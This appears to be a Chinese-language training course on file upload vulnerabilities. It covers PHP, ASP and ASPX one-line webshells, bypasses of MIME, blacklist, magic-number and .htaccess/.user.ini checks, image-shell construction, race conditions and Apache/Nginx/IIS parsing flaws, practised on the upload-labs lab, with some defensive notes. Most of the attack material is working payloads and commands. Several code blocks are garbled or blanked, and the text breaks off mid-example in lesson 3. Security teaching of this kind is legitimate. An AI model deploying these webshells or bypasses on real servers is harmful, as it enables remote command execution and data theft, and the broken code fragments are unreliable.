







# 文件上传漏洞详解 —— 从绕过技巧到 Webshell 部署
---

## iz z目录
| 课时 | 主题 | 时长 | 核心产出 |
| --- | --- | --- | --- |
| **第 1 课时** | 文件上传漏洞基础 + 环境 | 60 min | 看懂成因，搭好 upload-labs |
| **第 2 课时** | 黑名单绕过 + 白名单绕过 | 60 min | 掌握 10+ 种绕过技巧 |
| **第 3 课时** | 中间件解析漏洞 + 图片马 | 60 min | Apache/Nginx/IIS 三大中间件 |
| **第 4 课时** | upload-labs 通关实战 | 60 min | 完成 20 关 |


# 第 1 课时：文件上传漏洞基础 + 环境
## 1.1 一句话理解文件上传漏洞
> **文件上传漏洞**：用户上传的文件**被服务器当作可执行代码解析**，导致攻击者可以执行任意命令。

### 1.1.1 经典场景
某网站有头像上传功能：

```php
// 后端代码（有漏洞版）
move_uploaded_file($_FILES['avatar']['tmp_name'], 
                   'uploads/'.$_FILES['avatar']['name']);
```

黑客上传一个名为 `avatar.php` 的文件，内容是：

```php
<?php @eval($_POST['cmd']); ?>
```

然后访问 `http://victim.com/uploads/avatar.php`，**这个文件会被 PHP 解析器执行**！

黑客 POST `cmd=system('whoami');` → 拿到服务器命令执行。

### 1.1.2 漏洞本质


> 💡 **核心矛盾**：上传的文件**存储路径 + 访问方式 + 解析方式**三要素中只要出问题，就能利用。

---

## 1.2 文件上传的危害


| 危害 | 严重程度 |
| --- | :---: |
| Webshell（最大威胁） | ⭐⭐⭐⭐⭐ |
| 服务器沦陷 | ⭐⭐⭐⭐⭐ |
| 拖库 / 数据泄露 | ⭐⭐⭐⭐ |
| 内网横向 | ⭐⭐⭐⭐ |
| 钓鱼 / 黑链 | ⭐⭐⭐ |


---

## 1.3 服务器防御机制（攻击者要绕过的目标）


### 1.3.1 五道防线详解
| 线 | 类型 | 强度 | 绕过难度 |
| :---: | --- | :---: | :---: |
| 1 | 前端 JS | ⭐ | ⭐ |
| 2 | Content-Type (MIME) | ⭐⭐ | ⭐ |
| 3 | 后缀名黑白名单 | ⭐⭐⭐⭐ | ⭐⭐⭐ |
| 4 | 文件内容 / Magic Number | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐ |
| 5 | 文件重命名 | ⭐⭐⭐⭐⭐ | ❌ 无法绕 |
| 6 | 上传目录禁执行 | ⭐⭐⭐⭐⭐ | ❌ 无法绕 |


> 💡 **核心认知**：
> + 前端校验是**"骗自己"的**，可以随便绕
> + **重命名 + 目录禁执行**是**根本防御**（绕不过，只能改路径/解析方式）
> + 其他每道防线都有对应绕过技巧


---

## 1.4 Webshell 基础（必懂）
### 1.4.1 一句话木马
```php
<?php @eval($_POST['cmd']); ?>
```

**逐字符解析**：

| 字符 | 含义 |
| --- | --- |
| `<?php` | PHP 开始标签 |
| `@` | 抑制错误输出（隐蔽） |
| `eval()` | 把字符串当作 PHP 代码执行 |
| `$_POST['cmd']` | 从 POST 参数 `cmd` 取值 |
| `?>` | PHP 结束标签 |


**使用方式**：

```plain
POST /uploads/shell.php
Content-Type: application/x-www-form-urlencoded

cmd=system('whoami');
```

### 1.4.2 PHP 不同版本的 Webshell
```php
// 一句话（最常用）
<?php @eval($_POST['cmd']); ?>

// 命令执行专用
<?php system($_GET['cmd']); ?>

// assert 版（PHP < 7.0）
<?php assert($_POST['cmd']); ?>

// create_function 隐藏
<?php $cf=create_function('',$_POST['cmd']);$cf(); ?>

// preg_replace /e 修饰符（PHP < 7.0）
<?php preg_replace("/test/e",$_POST['cmd'],"test"); ?>
```

### 1.4.3 各语言 Webshell
```plain
<%-- JSP --%>
<%
                                                                                     
%>
```

```plain
<%
' ASP
cmd = Request("cmd")
Set ws = CreateObject("WScript.Shell")
ws.Run(cmd)
%>
```

```plain
<%@ Page Language="C#" %>
<%
string cmd = Request["cmd"];
System.Diagnostics.Process.Start("cmd.exe", "/c " + cmd);
%>
```

### 1.4.4 中国菜刀 / 蚁剑 / 冰蝎
> **Webshell 管理工具**：图形化连接一句话木马，提供文件管理、虚拟终端、数据库操作。
>

| 工具 | 特点 | 加密 |
| --- | --- | --- |
| 中国菜刀（老） | 经典 | 明文 |
| **蚁剑 AntSword** | 推荐 | 多种编码 |
| **冰蝎 Behinder** | 流量加密 | AES |
| 哥斯拉 Godzilla | 流量加密 | 多种 |


---

## 1.5 环境搭建：Docker 跑 upload-labs
### 1.5.1 启动
```bash
docker run -d \
  --name upload-labs \
  -p 8008:80 \
  c0ny1/upload-labs:latest
```

### 1.5.2 访问
浏览器打开 `http://localhost:8008/`

**默认 20 关**，每关测试一种防御。

### 1.5.3 查看源码（重要！）
```bash
docker exec -it upload-labs bash
cd /var/www/html
ls
# 看到 Pass-01 ~ Pass-20 文件夹
cat Pass-01/index.php
```

> 💡 **学习窍门**：每关**先看源码**，再决定用什么绕过技巧。
>

### 1.5.4 配套环境：PHP + Apache（自建测试）
```yaml
# docker-compose.yml
version: "3.8"
services:
  php-lab:
    image: php:7.4-apache
    container_name: upload-lab
    ports: ["8010:80"]
    volumes:
      - ./html:/var/www/html
    restart: unless-stopped
```

```bash
mkdir -p html/uploads
echo '<?php                                                                                                                                                                                                                                                                                                                                                                                                                          ?>` |
| 工具 | 蚁剑 / 冰蝎 |


### 课间实操（10 min）
1. Docker 启动 upload-labs。
2. 浏览器访问，看 Pass-01 默认页面。
3. `docker exec` 进容器查看每关源码。
4. 在自己 PHP 环境里写一个一句话木马，用浏览器 POST 测试。

---

# 第 2 课时：黑名单绕过 + 白名单绕过
## 2.1 绕过技巧总览（20+ 种）


---

## 2.2 前端校验绕过（最简单）
### 2.2.1 原理
```html
<!-- 前端 JS 校验（只允许 jpg/png） -->
<form onsubmit="return checkExt()">
<input type="file" accept="image/jpeg,image/png">
</form>

<script>
function checkExt() {
    var file = document.getElementById('f').value;
    if (!/\.(jpg|png)$/.test(file)) {
        alert('只允许 jpg/png!');
        return false;
    }
    return true;
}
</script>

```

**问题**：所有校验都在**浏览器**里完成，**根本没到服务器**。

### 2.2.2 绕过方式（3 种）
#### 方式 1：浏览器禁用 JS
Chrome → 设置 → 隐私和安全 → 网站设置 → JavaScript → 禁用

#### 方式 2：Burp 代理改包（推荐）
```plain
1. 准备一个 shell.php
2. 浏览器选 shell.php → 因为前端拦截，会报"只允许 jpg"
3. 改文件名为 shell.jpg（骗前端）→ 上传成功
4. Burp 拦截到请求 → 把 filename="shell.jpg" 改回 shell.php
5. Forward → 服务器收到的就是 shell.php
```

#### 方式 3：用 curl 直接发
```bash
curl -X POST http://localhost:8008/Pass-01/ \
  -F "upload_file=@shell.php;filename=shell.php" \
  -F "submit=上传"
```

### 2.2.3 防御
> **前端校验只是 UX，必须后端校验**！

---

## 2.3 MIME 绕过
### 2.3.1 什么是 MIME？
> **MIME (Multipurpose Internet Mail Extensions)**：标识文件类型的字符串，例如 `image/jpeg` `application/pdf`。

### 2.3.2 后端校验代码
```php
// 黑名单 MIME 校验（不安全）
$type = $_FILES['file']['type'];
if ($type == 'image/jpeg' || $type == 'image/png') {
    move_uploaded_file(...);
}
```

### 2.3.3 关键认知：MIME 来自前端！
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=---xxx

-----xxx
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php       ← 这一行由前端构造！

<?php @eval($_POST['cmd']); ?>
-----xxx--
```

> 🎯 `Content-Type` **完全可控**！攻击者想改什么就改什么。

### 2.3.4 绕过实操
用 Burp 拦截上传请求，把：

```plain
Content-Type: application/x-php
```

改成：

```plain
Content-Type: image/jpeg
```

然后 Forward → 服务器以为传的是图片，实际是 PHP。

### 2.3.5 防御
```php
// 用 finfo 获取真实 MIME
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$real_type = finfo_file($finfo, $_FILES['file']['tmp_name']);
// 但这也有绕过：图片马（见 2.10）
```

---

## 2.4 黑名单绕过（重点）
### 2.4.1 黑名单 vs 白名单
| 类型 | 策略 | 安全性 |
| --- | --- | :---: |
| **黑名单** | 禁止危险后缀 | ⭐⭐ 易绕 |
| **白名单** | 只允许安全后缀 | ⭐⭐⭐⭐⭐ |


> 💡 **黑名单的问题**：永远列不全所有危险后缀！

### 2.4.2 危险后缀清单（PHP）
| 后缀 | 是否被 PHP 解析 |
| --- | :---: |
| `.php` | ✅ |
| `.php3` `.php4` `.php5` `.php7` | ✅（看配置） |
| `.phtml` | ✅ |
| `.pht` | ✅（看配置） |
| `.phar` | ✅ |
| `.inc` | ✅（看配置） |
| `.user.ini` | 特殊作用 |


### 2.4.3 绕过技巧 1：大小写
**原理**：Windows 不区分大小写，Linux 看 Apache 配置。
```plain
shell.php    → 被黑名单拦
shell.PHP    → 绕过！
shell.pHp    → 绕过！
```

**Apache 配置**：
```plain
# /etc/apache2/mods-enabled/php.conf
# AddHandler application/x-httpd-php .php .PHP .pHp ...
# 若用通配匹配 → 大小写绕过生效
```

### 2.4.4 绕过技巧 2：双写
**原理**：黑名单过滤时只替换一次。

```php
// 后端代码
$filename = str_replace('.php', '', $filename);
// 输入 shell.pphphp → 替换中间的 php → shell.php ← 绕过！
```

### 2.4.5 绕过技巧 3：空格 / 点
**原理**：Windows / 旧版 PHP 会自动去掉末尾的空格和点。

```plain
shell.php       → 被拦
shell.php (空格)  → 绕过！（Windows）
shell.php.      → 绕过！（Windows）
shell.php ::$DATA  → 绕过！（Windows NTFS 特性）
```

`::$DATA` **原理**：

Windows NTFS 文件系统的**备用数据流 (Alternate Data Stream)**。 
`test.php::$DATA` 访问的是 `test.php` 的默认流，**等同于 test.php**。 
黑名单不识别 `::$DATA` 后缀 → 绕过！

### 2.4.6 绕过技巧 4：%00 截断
**原理**：C 语言字符串以 `\0` 结尾，PHP 底层用 C 实现。

**两种场景**：
#### 场景 A：路径拼接
```php
// 后端代码（PHP < 5.3.4）
$filename = $_GET['filename'];
move_uploaded_file($tmp, '/var/www/html/uploads/'.$filename);
```

```plain
URL: ?filename=shell.php%00.jpg
PHP 内部路径变成：/var/www/html/uploads/shell.php\0.jpg
                                              ↑
                                     截断！实际写到 shell.php
```

#### 场景 B：move_uploaded_file 路径
```php
move_uploaded_file($tmp, 'uploads/'.$_POST['name']);
// name=shell.php%00 → 实际写到 uploads/shell.php
```

 ⚠️ **限制**：
 + PHP **5.3.4+ 已修复**（不再截断）
 + 仅在**低版本**可用

### 2.4.7 绕过技巧 5：服务端空格 / 点处理
```php
// 后端代码
$filename = trim($_FILES['file']['name']);      // 去空格
$filename = rtrim($filename, '.');              // 去末尾点
$filename = str_ireplace('.php', '', $filename); // 去 .php
```

**绕过**：构造 `shell.php.` → 去点 → `shell.php` → 但是！有些系统会再次加扩展名…

**更稳的方式**：`shell.php. .`（空格点空格）

---

## 2.5 .htaccess 绕过（Apache 特有）
### 2.5.1 .htaccess 是什么？
Apache 的**目录级配置文件**，放在哪个目录就影响哪个目录。

### 2.5.2 关键指令
```plain
# 让所有 .jpg 都按 PHP 解析！
AddType application/x-httpd-php .jpg

# 或更精准的
<FilesMatch "shell.jpg">
    SetHandler application/x-httpd-php
</FilesMatch>

```

### 2.5.3 完整利用流程
```plain
1. 上传 .htaccess（内容：让 .jpg 当 PHP 解析）
2. 上传 shell.jpg（其实是一句话木马）
3. 访问 /uploads/shell.jpg → 被当作 PHP 执行！
```

### 2.5.4 限制
| 条件 | 必须 |
| --- | :---: |
| Web 服务器是 Apache | ✅ |
| .htaccess 允许覆盖（AllowOverride All） | ✅ |
| 黑名单未禁 .htaccess 上传 | ✅ |


🎯 **真实场景**：很多老站 Apache 配置不严，.htaccess 是神技。

### 2.5.5 .htaccess 防绕过技巧
```plain
# 用 `\` 换行（绕过黑名单关键字过滤）
AddTy\
pe applica\
tion/x-\
httpd-\
php .jpg

# 用 16 进制
php_value engine 1
```

---

## 2.6 .user.ini 绕过（PHP 特有）
### 2.6.1 .user.ini 是什么？
PHP 的**目录级 php.ini**。在每个目录下放一个 `.user.ini`，可以**覆盖部分 php.ini 配置**。

### 2.6.2 关键指令
```properties
; 让所有 PHP 文件自动包含 shell.jpg
auto_prepend_file=shell.jpg
```

### 2.6.3 完整利用流程
```plain
1. 上传 .user.ini（内容：auto_prepend_file=shell.jpg）
2. 上传 shell.jpg（一句话木马，伪造图片头）
3. 等待（user_ini.cache_ttl 默认 300 秒）
4. 访问 /uploads/任意存在的.php → shell.jpg 被自动包含！
```

🎯 **关键**：上传目录里**必须有一个 .php 文件**才会触发（如 index.php）。

### 2.6.4 优势对比 .htaccess
| 维度 | .htaccess | .user.ini |
| --- | --- | --- |
| Web 服务器 | 仅 Apache | **任何**（PHP 模块/FastCGI 都行） |
| 适用 Nginx | ❌ | ✅ |
| 影响范围 | 同目录及子目录 | 同目录的 .php |

---

## 2.7 白名单绕过（更难）
### 2.7.1 为什么白名单难绕？
白名单只允许 jpg/png/gif → **直接上传 .php 必失败**。

### 2.7.2 三种思路
```plain
思路 1：让 jpg 被解析成 PHP（图片马 + 解析漏洞 / 包含漏洞）
思路 2：绕过白名单本身（编码、变量污染）
思路 3：利用文件包含漏洞（在另一处拼接）
```

---

## 2.8 Magic Number（文件头）绕过
### 2.8.1 什么是 Magic Number？
文件开头几个字节的**特征值**，用于识别文件真实类型。

| 文件类型 | Magic Number（Hex）         | ASCII  |
| ---- | ------------------------- | ------ |
| JPEG | `FF D8 FF`                | ÿØÿ    |
| PNG  | `89 50 4E 47 0D 0A 1A 0A` | ‰PNG   |
| GIF  | `47 49 46 38 39 61`       | GIF89a |
| GIF  | `47 49 46 38 37 61`       | GIF87a |
| BMP  | `42 4D`                   | BM     |
| PDF  | `25 50 44 46`             | %PDF   |
| ZIP  | `50 4B 03 04`             | PK     |

### 2.8.2 后端校验
```php
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$type = finfo_file($finfo, $_FILES['file']['tmp_name']);
if ($type != 'image/jpeg') die('只能 jpg');
```

**问题**：只看前几个字节。

### 2.8.3 绕过：构造图片马
#### 命令行
```bash
# 准备 shell.php（一句话木马）
echo '<?php @eval($_POST["cmd"]);?>' > shell.php

# 加 JPEG 头
echo -ne '\xFF\xD8\xFF' > shell.jpg
cat shell.php >> shell.jpg

# 验证
file shell.jpg
# 输出：shell.jpg: JPEG image data, ... （被识别成 JPEG！）
```

#### 用真图片（更稳）
```bash
# 准备一张真实图片 cat.jpg
# 把 PHP 拼到图片尾部
cat cat.jpg shell.php > shell2.jpg
file shell2.jpg
# 输出：JPEG image data, ... （完美的 JPEG）
```

### 2.8.4 如何"激活"图片马？
> 图片马**自己不会执行**！需要借助：
> + **文件包含漏洞**（include/require 图片马）
> + **解析漏洞**（Apache/Nginx/IIS）
> + `.htaccess`** / **`.user.ini`

```php
// 文件包含漏洞
include($_GET['page']);
// 访问 ?page=uploads/shell.jpg → shell.jpg 被作为 PHP 解析
```

---

## 2.9 完整 Magic Number 速查表
```plain
图片：
  JPEG  FF D8 FF E0 / FF D8 FF E1
  PNG   89 50 4E 47 0D 0A 1A 0A
  GIF   47 49 46 38 39 61 (GIF89a)
  BMP   42 4D

文档：
  PDF   25 50 44 46
  DOCX  50 4B 03 04 (实际是 ZIP)
  RTF   7B 5C 72 74 66

压缩：
  ZIP   50 4B 03 04
  RAR   52 61 72 21
  GZ    1F 8B

其他：
  TXT   无 Magic Number
  EXE   4D 5A (MZ)
```

---

## 2.10 竞争条件（Race Condition）
### 2.10.1 原理
```php
// 后端代码（漏洞版）
move_uploaded_file($tmp, 'uploads/'.$name);
// 此时文件已存在！
if (!check_valid('uploads/'.$name)) {
    unlink('uploads/'.$name);
}
// 在 move 和 unlink 之间有时间窗口！
```

🎯 **攻击**：上传 + 立即访问 + 删除前触发。

### 2.10.2 利用
**Payload**（上传的文件内容）：

```php
<?php
                                                           ?>');
?>
```

**步骤**：
1. 用 Burp Intruder **并发上传** 100 次
2. 同时**并发访问** `/uploads/tempfile.php`
3. 只要访问时文件还在 → 触发 PHP → 生成永久 shell.php

### 2.10.3 防御
```php
// 用临时文件名先校验，再决定是否移到正式目录
$tmp_name = tempnam('/tmp', 'upload');
move_uploaded_file($_FILES['f']['tmp_name'], $tmp_name);
if (check_valid($tmp_name)) {
    rename($tmp_name, 'uploads/'.$safe_name);
} else {
    unlink($tmp_name);
}
```

---

## 2.11 课时 2 小结
| 类别 | 技巧 |
| --- | --- |
| 前端 | Burp 改包 / curl 直发 |
| MIME | 改 Content-Type |
| 黑名单 | 大小写 / 双写 / 空格 / 点 / ::$DATA / %00 |
| 配置 | .htaccess / .user.ini |
| 白名单 | 图片马 + 包含/解析 |
| Magic | 加 JPEG/PNG/GIF 头 |
| 竞争 | 并发上传 + 并发访问 |


### 课间实操（20 min）
1. 在 upload-labs Pass-01 用 Burp 绕过前端校验。
2. 构造一个图片马（JPEG 头 + 一句话）。
3. `file` 命令验证图片马被识别成 JPEG。
4. 在自己 PHP 环境**写一个文件包含漏洞**，让图片马执行。

---

# 第 3 课时：中间件解析漏洞 + 图片马进阶
## 3.1 三大中间件解析漏洞概览


---

## 3.2 Apache 解析漏洞
### 3.2.1 多后缀解析（最经典）
**原理**：Apache 看**最后一个后缀**，如果不认识就**往前找**。
```plain
配置：AddHandler application/x-httpd-php .php

文件名：shell.php.xxx
Apache 处理：
  1. 看 .xxx → 不认识
  2. 往前找 → 看到 .php → 当 PHP 解析！
```

**Payload**：
```plain
shell.php.jpg       → 当 PHP 解析
shell.php.png       → 当 PHP 解析
shell.php.abc       → 当 PHP 解析（任意不认识后缀）
shell.php.zip.rar.7z → 当 PHP 解析
```

### 3.2.2 利用条件
+ Apache 配置 `AddHandler application/x-httpd-php .php`（而不是 `SetHandler`）
+ 黑名单只查最后后缀

### 3.2.3 防御
```plain
# 用 SetHandler 而非 AddHandler
<FilesMatch "\.php$">
    SetHandler application/x-httpd-php
</FilesMatch>

# 或禁止 .php. 这种文件
<FilesMatch "\.php\..*$">
    Require all denied
</FilesMatch>

```

### 3.2.4 CVE-2017-15715 换行解析
**影响版本**：Apache 2.4.0 - 2.4.29

**原理**：匹配 `$` 时**允许换行符 **`\n` 在前。

**Payload**：
```plain
filename: shell.php\n（最后有一个换行）

后端代码：
$filename = $_FILES['f']['name'];
$filename = trim($filename, '.');   // 不去 \n

正则匹配 \.php$：
  shell.php\n
          ↑
  $ 匹配 \n 之前的位置 → 匹配成功 → 当 PHP 解析
```

**实操**（Burp）：
```plain
Content-Disposition: form-data; name="f"; filename="shell.php"
[这里加一个 0x0A 字节]
```

> 🎯 **技巧**：Burp Hex 视图在 filename 后加一个 `0A`。

---

## 3.3 Nginx 解析漏洞
### 3.3.1 CGI 路径解析漏洞（最经典）
**原理**：Nginx 配置了 `cgi.fix_pathinfo=1`（PHP 默认值）时，会把 URI 路径**向下解析**。
```plain
URL: http://victim.com/uploads/test.jpg/x.php

Nginx 处理：
  1. 找 x.php → 不存在
  2. cgi.fix_pathinfo=1 → 往上找 → 找到 test.jpg
  3. 把 test.jpg 当 PHP 解析！
```

**Payload**：
```plain
/uploads/shell.jpg/x.php           → 解析 shell.jpg
/uploads/shell.jpg/.php            → 解析 shell.jpg
/uploads/shell.jpg/foo/bar.php     → 解析 shell.jpg
```

### 3.3.2 利用条件
+ Nginx + PHP-FPM
+ `cgi.fix_pathinfo=1`（PHP < 5.3 默认；>= 5.3 默认 1 但安全）
+ 上传目录里 PHP 可执行

### 3.3.3 %00 截断（旧版 Nginx）
**影响版本**：Nginx < 0.5.41 / 0.6.x < 0.6.39 / 0.7.x < 0.7.62 / 0.8.x < 0.8.14

```plain
URL: http://victim.com/uploads/test.jpg%00.php

Nginx 把 %00 当字符串结尾 → 解析 test.jpg 为 PHP
```

### 3.3.4 防御
```properties
; php.ini
cgi.fix_pathinfo=0
security.limit_extensions = .php
```

```nginx
# nginx.conf
location ~ \.php$ {
    try_files $uri =404;     # 文件不存在直接 404
    fastcgi_pass ...;
}
```

---

## 3.4 IIS 解析漏洞
### 3.4.1 IIS 6.0
#### 漏洞 1：分号解析
```plain
URL: http://victim.com/shell.asp;.jpg

IIS 6.0 处理：
  看到分号 ; → 后面的内容丢弃 → 实际解析 shell.asp
```

**Payload**：
```plain
shell.asp;.jpg         → 当 ASP 执行
shell.aspx;.jpg        → 当 ASPX 执行
shell.asp;.png
```

#### 漏洞 2：目录解析
```plain
URL: http://victim.com/test.asp/1.jpg

IIS 6.0 处理：
  在 test.asp/ 目录下的所有文件都当 ASP 解析！
```

**Payload**：
```plain
1. 创建 /uploads/test.asp/ 目录（如果允许）
2. 上传 1.jpg（实际是 ASP 木马）到这个目录
3. 访问 /uploads/test.asp/1.jpg → 当 ASP 执行
```

### 3.4.2 IIS 7.0 / 7.5
类似 Nginx CGI 漏洞：

```plain
URL: http://victim.com/test.jpg/x.php

IIS 处理：
  fastcgi.fix_pathinfo=1 → 往上找 → test.jpg 当 PHP 执行
```

### 3.4.3 IIS 漏洞环境
Vulhub 提供：

+ IIS 6.0 解析漏洞（Windows Server 2003 容器）
+ IIS 7.0 / 7.5 解析漏洞（Windows Server 2008+）

---

## 3.5 编辑器漏洞（高级）
### 3.5.1 FCKeditor
| 漏洞 | 路径 |
| --- | --- |
| 上传任意文件 | `/fckeditor/editor/filemanager/connectors/php/upload.php` |
| 列目录 | `/fckeditor/editor/filemanager/connectors/php/connector.php?Command=GetFoldersAndFiles` |
| 路径穿越 | `Type=../../` |

### 3.5.2 CKEditor 4.0+
较新版本，但仍有**配置错误**导致的上传。

### 3.5.3 UEditor
+ **SSRF 漏洞**（任意 URL 抓取）
+ **上传漏洞**（.NET 版本特别严重）

---

## 3.6 图片马进阶制作
### 3.6.1 简单拼接（推荐）
```bash
# 准备一张真图
ls cat.jpg

# 准备一句话木马
echo '<?php @eval($_POST["cmd"]);?>' > shell.php

# 拼接
cat cat.jpg shell.php > shell.jpg

# 验证
file shell.jpg          # JPEG image data
xxd shell.jpg | tail -5 # 末尾能看到 PHP 代码
```

### 3.6.2 exiftool 写入 EXIF
```bash
# 把一句话写到 JPEG 的 Comment 字段
exiftool -Comment='<?php @eval($_POST["cmd"]);?>' cat.jpg -o shell.jpg

# 验证
exiftool shell.jpg | grep Comment
```

> 💡 **优势**：图片显示正常，PHP 代码隐藏在 EXIF 里，**更隐蔽**。

### 3.6.3 GIF89a 头（最简单）
```bash
echo 'GIF89a' > shell.gif
echo '<?php @eval($_POST["cmd"]);?>' >> shell.gif

# 或一行
echo -e 'GIF89a\n<?php @eval($_POST["cmd"]);?>' > shell.gif
```

### 3.6.4 PNG IDAT 隐写（高阶）
把 PHP 代码写到 PNG 的 IDAT 数据块里，**绕过所有基于内容检测的 WAF**。需要专门工具生成。

### 3.6.5 图片马的激活
**激活方式**（缺一不可）：



**实例：文件包含激活**
```php
// 漏洞代码
<?php include($_GET['page']); ?>

